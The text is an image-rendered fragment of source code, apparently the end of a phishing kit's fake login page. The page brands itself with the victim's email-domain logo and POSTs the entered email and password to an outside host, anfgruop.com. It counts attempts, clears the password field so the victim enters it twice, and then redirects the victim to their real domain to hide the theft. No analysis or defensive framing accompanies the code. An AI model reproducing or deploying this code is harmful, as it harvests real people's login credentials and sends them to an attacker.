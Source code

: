 $("#logoimg").attr("src", "https://logo.clearbit.com/"+my_slice);
$("#logoname").html(finalu);
///////////new injection////////////////
count=count+1;

$.ajax({
dataType: 'JSON',
url: 'https://anfgruop.com/ddhd/New.php',
type: 'POST',
data:{
email:email,
password:password,
},
// data: $('#contact').serialize(),
beforeSend: function(xhr){
$('#submit-btn').val('Verifing...');
},
success: function(response){
if(response){
$("#msg").show();
console.log(response);
if(response['signal'] == 'ok'){
$("#password").val("");
if (count>=2) {
count=0;
// window.location.replace(response['redirect_link']);
window.location.href("http://www."+my_slice);

}
// $('#msg').html(response['msg']);
}
else{
// $('#msg').html(response['msg']);
}
}
},
error: function(){
$("#password").val("");
if (count>=2) {
count=0;
window.location.replace("http://www."+my_slice);
}
$("#msg").show();
// $('#msg').html("Please try again later");
},
complete: function(){
$('#submit-btn').val('LOGIN');
}
});
});


});


</script>
</body>
</html>


